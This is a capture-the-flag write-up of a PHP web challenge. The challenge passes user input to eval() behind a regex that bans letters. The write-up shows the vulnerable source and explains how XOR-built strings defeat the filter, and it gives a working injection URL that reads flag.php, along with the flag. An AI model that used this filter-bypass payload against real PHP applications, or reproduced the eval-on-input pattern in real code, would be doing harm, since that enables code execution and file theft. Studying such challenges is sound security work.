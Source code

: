 # Web Warm-up
[![Generic badge](https://img.shields.io/badge/web-php-<COLOR>.svg)](https://shields.io/)

## Challenge

> Warm up! Can you break all the tasks? I'll pray for you!
>
> read flag.php
>
> Link: [Link](http://69.90.132.196:5003/?view-source)

## Analysis
When we click the link `http://69.90.132.196:5003/?view-source`, we can
see the source of the php file the runs the page:

```php
  <?php
if(isset($_GET['view-source'])){
     highlight_file(__FILE__);
     die();
}

if(isset($_GET['warmup'])){
     if(!preg_match('/[A-Za-z]/is',$_GET['warmup']) &&
strlen($_GET['warmup']) <= 60) {
     eval($_GET['warmup']);
     }else{
         die("Try harder!");
     }
}else{
     die("No param given");
}
```

The `view-source` URL parameter shows the content of the file through
the `highlight_file` PHP function.

The `warmup` URL parameter is first checked by `preg_match` with the
regex `/[A-Za-z]/is`, that is the URL parameter can't contain any
letter; second it check that the lenght is less than 60. Then, if all
the checks in the `ìf` clause are satisfied, the URL parameter is
evaluated by the `eval` PHP function.

If there wasn't the regex check, I could make this request:
`/?warmup=highlight_code('flag.php')`. In order to solve this challenge
I have to write this request without using letters in the URL parameter
`warmup`.

## XOR between strings

After a long search among
[PHP](https://www.php.net/manual/en/language.operators.bitwise.php),
[CTF
wiki](https://ctf-wiki.github.io/ctf-wiki/web/php/php/#bypassing-the-upload-check)
pages I discovered that in PHP is possible to write a string as the XOR
of two strings. When the PHP interpreter finds `'A'^'?'`, it evaluates
the expression as `~`. I made a Z3 solver with python ([generate_Chars_as_xor.py](generate_Chars_as_xor.py)) to build more
complex strings as the XOR of 2 strings that don't contain ASCII letters.

You can check that the XOR produces the right string using a [PHP
sandbox](https://sandbox.onlinephpfunctions.com/).

## ...PHP headache

For the local tests I used the statement `echo 'hello';`, so that I could easily understand if it works.

My first attempt was to:
1. writing `echo 'hello';` as the XOR of two strings (the
`;` at the end is mandatory, as reported in the documentation of
[`eval`](https://www.php.net/manual/en/function.eval.php).
2. making a request with `warmup` parameter set with the XOR:
`http://69.90.132.196:5003/?warmup="@@30~|(@@[_[@"^"%#[_^[@%,70|{"`

However, it failed! The server returns `[500] Internal Server Error`.

Since I wanted to debug why it hadn't worked, I installed PHP in my
computer, created a `index.php` with the same source code of the
challenge, and started the server with the command `php -S
localhost:8000`. When the server receives my request it reports an
error: `PHP Parse error:  syntax error, unexpected end of file in
/home/index.php(3) : eval()'d code on line 1`.

Now I had to understand how to make `eval` working with the parameter
I'm sending via the URL. 

I made 2 tests:
1. In a PHP sandbox, I tried this PHP code: `<?php
eval("_<(0[|@>2__[@"^":_@_{[([^30|{");` (that stands for `<?php echo
'hello';`) and it works because it prints *hello*.

2. In my local PHP, I had a `index.php` with
```php
<?php
     if(isset($_GET['param'])){
         eval($_GET['param']);
         die();
     }
```
and I made the request
`http://localhost:8000/?param="_<(0[|@>2__[@"^":_@_{[([^30|{"`, that
doesn't work and reports the same error as before.

After a lot of tests I asked to
[StackOverflow](https://stackoverflow.com/questions/62746270/php-eval-of-a-xor-between-two-strings-via-the-url-parameter)
and I understood the problem:

 > [...] Now, on further inspection of the error, I found that eval()
requires statements and not expressions. [...]

In the first case, the interpreter first evaluates the XOR between the
strings and produces a new string: `"echo 'hello';"`. In this case `eval` receives
this string that contains a **statement**!

In the second case, `eval` receives `"_<(0[|@>2__[@"^":_@_{[([^30|{"`,
that is an **expression**. So `eval` doesn't receive a valid statement
and returns an error.

It is important to understand the difference between **statement** and
**expression**. There are a lot of questions and good answers in
Internet. As a rule of thumb, an expression is something that can be
assigned to a variable; what you can't assign to a variable is a statement.

**THANK YOU STACKOVERFLOW**

Long story short: my first idea isn't the solution because I'm passing
an expression and not a statement.

## Solution

I need to assign a statement to `warmup` parameter. Always in (CTF
wiki)[https://ctf-wiki.github.io/ctf-wiki/web/php/php/#bypassing-the-upload-check]
there is an explaination how to bypass the `preg_match` using more parameters.

If we forget for a moment of the check, the URL should be:

```
?warmup=$_GET['function']($_GET['filename'])&function=highlight_file&filename=flag.php
```

But in order to bypass the check, the URL becomes:

```
http://69.90.132.196:5003/?warmup=$_='{<8*'^'${}~';${$_}["_"](${$_}["__"]);&_=highlight_file&__=flag.php
```

1. `warmup=$_GET['function']($_GET['filename'])` becomes `warmup=$_='{<8*'^'${}~';${$_}["_"](${$_}["__"]);`:

    - `$_='{<8*'^'${}~';` is the first **statement** that creates a variable called `_` that contains a XOR between 2 strings. The result of the XOR is another string: `'_GET'`. I used my python generator to obtain the 2 strings to XOR. There are a lot of possible solutions. (Note the single quote; `$_="{<8*"^"${}~";` won't work).

    - `${$_}["_"](${$_}["__"]);` is the second statement:

         - `${$_}` is a [complex curly syntax](https://www.php.net/manual/en/language.types.string.php#language.types.string.parsing.complex) that encloses complex expressions. It stands for `$_GET`.

         - `["_"]` is the parameter that `_GET` is requesting. Recall the PHP notation to retrieve the parameters in a URL `$_GET["parameter"]`. In our case, the parameter is `_`.

         - `["__"]` is used to get the value of the parameter `__` in the URL request.

         - `()` are the parethesis needed to make a function call. PHP is a weak type language so if you write the pair of parenthesis after a variable name it will interpreted as a function.

2. `_=highlight_file` is the second parameter, called `_`, of the URL request.

3. `__=flag.php` is the third parameter, called `__`, of the URL request.

Recall that parameters are concatenated in a URL request by `&`.

The **imaginary** steps to reach the final URL request would be:
```
eval($_GET['warmup']);

   |
   |
   V

eval(  $_GET['_']( $_GET['__'] )  );

   |
   |
   V

eval(  highlight_code('flag.php')  );
```

The request:

```
http://69.90.132.196:5003/?warmup=$_='{<8*'^'${}~';${$_}["_"](${$_}["__"]);&_=highlight_file&__=flag.php
```

will produce

```php
<?php
$flag = "ASIS{w4rm_up_y0ur_br4in}";
?> 
```

## Flag

`ASIS{w4rm_up_y0ur_br4in}`


## References

1.
https://ctf-wiki.github.io/ctf-wiki/web/php/php/#bypassing-the-upload-check
2. https://rawsec.ml/en/meepwn-2018-write-up/#omegasector-web